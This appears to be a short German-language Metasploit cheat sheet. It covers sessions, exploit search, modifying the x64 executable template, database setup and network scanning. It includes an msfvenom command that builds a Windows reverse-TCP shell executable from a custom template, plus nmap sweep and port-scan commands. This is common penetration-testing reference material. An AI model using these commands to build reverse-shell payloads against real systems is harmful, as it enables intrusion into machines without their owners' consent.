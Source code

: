 ### Sessions
```ruby
#List Sessions
sessions
#Select Session
sessions -i 1
```

### Search

```ruby
msf> search platform:windows port:135 target:XP type:exploit
#list available keywords
msf>help search
```
## Custom

### Custom Termplates

#### x64 template

`metasploit-framework/data/templates/src/pe/exe/template_x64_windows.asm`

4096 ändern in 8192

Kompilieren:

```batch
C:\Program Files\Microsoft Visual Studio\2022\Community\VC\Tools\MSVC\14.38.33130\bin\Hostx64\x64>ml64.exe c:\tmp\template_x64_windows.asm /link /subsystem:windows /defaultlib:"C:\Program Files (x86)\Windows Kits\10\Lib\10.0.22621.0\um\x64\kernel32.Lib" /entry:main
```

msfvenom:

```bash
msfvenom -x template_x64_windows.asm -p windows/x64/shell_reverse_tcp LHOST=0.0.0.0 LPORT=4500 -f exe > file.exe
```

## Database

Datenbanken können mit `root@kali:~# msfdb init` initialisiert werden. Hierzu wird eine Datenbank mit Benutzer und Passwort erstellt und das Datenbank-Schema angelegt.

```ruby
msf6 > db_connect user:pass@localhost/msf
msf6 > db_status
msf6 > workspace
msf6 > workspace -a new_ws
msf6 > db_nmap -sP 192.168.2.0/24
msf6 > hosts
msf6 > use auxiliary/scanner/portscan/tcp
msf6 auxiliary(scanner/portscan/tcp) > hosts -R
msf6 auxiliary(scanner/portscan/tcp) > run
```

